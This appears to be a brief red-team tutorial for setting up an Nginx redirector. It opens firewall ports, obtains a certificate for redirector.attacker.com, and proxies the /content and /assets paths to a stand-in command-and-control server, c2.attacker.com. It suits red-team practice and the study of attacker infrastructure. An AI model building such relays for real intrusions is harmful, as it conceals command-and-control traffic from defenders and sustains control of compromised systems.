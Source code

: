 Initially only SSH exposed:

```
$ ufw status
Status: active

To                         Action      From
--                         ------      ----
22                         ALLOW       Anywhere                  
22 (v6)                    ALLOW       Anywhere (v6)
```

Open HTTP and HTTPS:

```
ufw allow 80/tcp
ufw allow 443/tcp
```

Obtain SSL certificate:

```
systemctl stop nginx.service
certbot certonly --agree-tos --standalone -m webmaster@attacker.com -d redirector.attacker.com
```

Write Nginx site configuration:

```
# /etc/nginx/sites-available/redir.conf
server {
    listen 443;
    server_name redirector.attacker.com;

    ssl on;
    ssl_certificate /etc/letsencrypt/live/redirector.attacker.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/redirector.attacker.com/privkey.pem;

    root /var/www/html-dl;

    location /content {
        proxy_pass https://c2.attacker.com ;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }

    location /assets {
        proxy_pass https://c2.attacker.com ;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }
}
```

Configure Nginx:

```
mkdir -p /var/www/html-dl
rm /etc/nginx/sites-enabled/default
ln -s /etc/nginx/sites-available/redir.conf /etc/nginx/sites-enabled
```
